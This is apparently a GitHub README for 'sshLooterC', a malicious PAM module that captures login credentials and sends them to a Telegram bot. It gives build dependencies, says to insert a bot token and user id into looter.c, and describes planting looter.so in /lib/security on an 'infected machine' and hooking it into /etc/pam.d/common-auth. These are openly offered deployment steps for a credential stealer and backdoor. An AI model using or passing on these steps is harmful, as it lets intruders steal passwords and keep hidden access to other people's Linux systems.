 # sshLooterC

# Dependencies
* root
* brain
* coffe
* gcc
* libcurl4-openssl-dev
* libpam0g-dev


### Debian/Ubuntu

```
apt install libcurl4-openssl-dev
apt install libpam-dev
```

### RedHat/CentOs

```
yum install libcurl-devel
yum install pam-devel
```

# Configure
Edit the `looter.c` and add your telegram bot token and your user id.

# Usage
Copy the `looter.so` to the infected machine on `/lib/security`, then edit the `/etc/pam.d/common-auth` and add the following lines.
```
auth optional looter.so
account optional looter.so
```
